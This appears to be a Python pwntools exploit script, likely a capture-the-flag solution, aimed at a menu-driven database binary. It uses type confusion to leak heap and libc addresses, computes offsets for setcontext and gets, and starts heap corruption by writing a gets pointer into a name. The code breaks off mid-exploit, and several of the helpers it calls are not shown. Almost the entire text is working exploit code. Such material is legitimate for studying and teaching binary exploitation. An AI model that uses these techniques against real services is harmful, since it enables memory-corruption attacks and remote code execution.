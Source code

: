 ```python

def empty(db):
  r.recvuntil(">>> ")
  r.sendline("empty " + db)

def delete(db,key):
  r.recvuntil(">>> ")
  r.sendline("delete " + db + " " + str(key))

def pr(db):
  r.recvuntil(">>> ")
  r.sendline("print " + db)

def echo(data):
  r.recvuntil(">>> ")
  r.sendline("echo " + data)

def getter(db,key,ops=0):
  r.recvuntil(">>> ")
  r.sendline("getter " + db + " " + str(key) + " " + str(ops))

def show(start,end):
  pass
  r.recvuntil(start)
  data = r.recvuntil(end)[:-len(end)]
  return data

def float_to_str(f):
  ctx = decimal.Context()
  ctx.prec = 20
  d1 = ctx.create_decimal(repr(f))
  return format(d1, 'f')

if len(sys.argv) == 1:
  r = process([binary, "0"], env={"LD_LIBRARY_PATH":"."})
  #r = remote("127.0.0.1" ,4444)
else:
  r = remote(host ,port)

if __name__ == '__main__':
  r.recvuntil(">>> ")
  r.recvuntil(">>> ")
  r.recvuntil(">>> ")
  create("D"*(0x410))
  destroy("D"*0x410)
    
  create("A")
  store("A","int" , 0, -1)
  store("A","string" , 0, "A"*19)
  get("A",0)
  heap = int(r.recvuntil("\n")[:-1]) - 0x13d80
  print("heap = {}".format(hex(heap)))
  store("A","string" , 1, "Z"*19)
  store("A","float" , 1, float_to_str(struct.unpack("<d",p64(heap + 0x12f90))[0]))
  get("A",1)
  libc = u64(r.recv(6).ljust(8,"\x00")) - 0x3ebca0
  print("libc = {}".format(hex(libc)))
  store("A","string" , 2, "Z"*19)
  r.sendlineafter(">>> ", "getter A 2 1")
  r.sendlineafter(": ", "empty")
  setcontext = libc + 0x520a5
  gets = libc+0x800b0
  create("X"*0x10 + p64(gets)[:-1])
```